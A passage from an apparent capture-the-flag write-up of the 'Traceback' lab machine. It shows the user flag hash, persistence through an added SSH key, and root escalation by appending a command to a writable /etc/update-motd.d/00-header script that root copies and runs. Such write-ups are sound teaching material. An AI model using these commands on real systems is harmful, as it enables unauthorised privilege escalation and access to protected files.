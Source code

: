 We go to our new home and read user.txt

    :::text
    $ bash
    sysadmin@traceback:~$ cd /home/sysadmin/
    sysadmin@traceback:/home/sysadmin$ ls
    luvit  user.txt
    sysadmin@traceback:/home/sysadmin$ cat user.txt 
    349f0968dce655cb15708bba0077d225

As before we add our public ssh key to the user's `.ssh/authorized_keys`.

# root

We do not know sysadmin's password required to list our `sudo` right.

We run a simple `ps aux` to know which process are running. We see (that's some
luck) that root regularly execute the following command:
`/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/`

    ::text
    root      28855  0.0  0.0   4628   856 ?        Ss   02:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

We confirm that using [pspy](https://github.com/DominicBreuker/pspy) (using ssh
to copy the binary).

    :::text
    2020/03/26 03:07:01 CMD: UID=0    PID=29213  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
    2020/03/26 03:07:01 CMD: UID=0    PID=29212  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 

When looking at the `/var/backups/.update-motd.d` folder's permissions when see
that we can not write in any file nor create a file as everything belong to
`root`. Nevertheless, the `/etc/update-motd.d/` folder's permissions allow our
user to write in any file. We create a temporary folder and add a command to the
`00-header` file. That command will copy the file `/root/root.txt` and give us
the permissions to read it.

    :::text
    sysadmin@traceback:/etc/update-motd.d$ ls -al
    total 32
    drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
    drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
    -rwxrwxr-x  1 root sysadmin  981 Mar 26 03:59 00-header
    -rwxrwxr-x  1 root sysadmin  982 Mar 26 03:59 10-help-text
    -rwxrwxr-x  1 root sysadmin 4264 Mar 26 03:59 50-motd-news
    -rwxrwxr-x  1 root sysadmin  604 Mar 26 03:59 80-esm
    -rwxrwxr-x  1 root sysadmin  299 Mar 26 03:59 91-release-upgrade
    sysadmin@traceback:/etc/update-motd.d$ mkdir /tmp/ioio
    sysadmin@traceback:/etc/update-motd.d$ echo 'cp /root/root.txt /tmp/ioio && chmod 777 /tmp/ioio/root.txt' >> 00-header
